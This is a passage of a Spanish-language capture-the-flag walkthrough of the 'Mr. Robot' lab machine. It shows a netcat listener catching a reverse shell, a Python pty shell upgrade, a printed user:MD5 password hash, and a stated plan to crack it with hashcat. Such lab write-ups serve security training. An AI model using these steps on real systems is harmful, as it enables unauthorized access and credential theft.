- Ponemos a la escucha nuestra máquina, por el puerto indicado anteriormente ( 9999 ) → Puedes poner cualquiera:

```bash
nc -lvnp 9999
```

![conexionReversa](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%2011.png)

- Vamos a “vitaminizar” nuestra *shell*, a una que sea un poco más interactiva, en este caso no la vamos a *upgradear* 100% interactiva ya que no nos va a hacer falta.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

![shell](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%2012.png)

- Nos dirigimos al directorio /home/robot.
- Nos encontramos dos archivos ahí:
    - key-2-of-3.txt → La cual no podemos acceder ya que pertenece al usuario Robot
    - password.raw-md5 → El cual contiene:
    
    ```bash
    robot:c3fcd3d76192e4007dfb496cca67e13b
    ```
    
- Tiene toda la pinta que el archivo password.raw-md5 nos va a permitir cambiar al otro usuario del sistema, **robot**.
- Vamos a utilizar hashcat para crackear dicho archivo y probar a sacar información de el
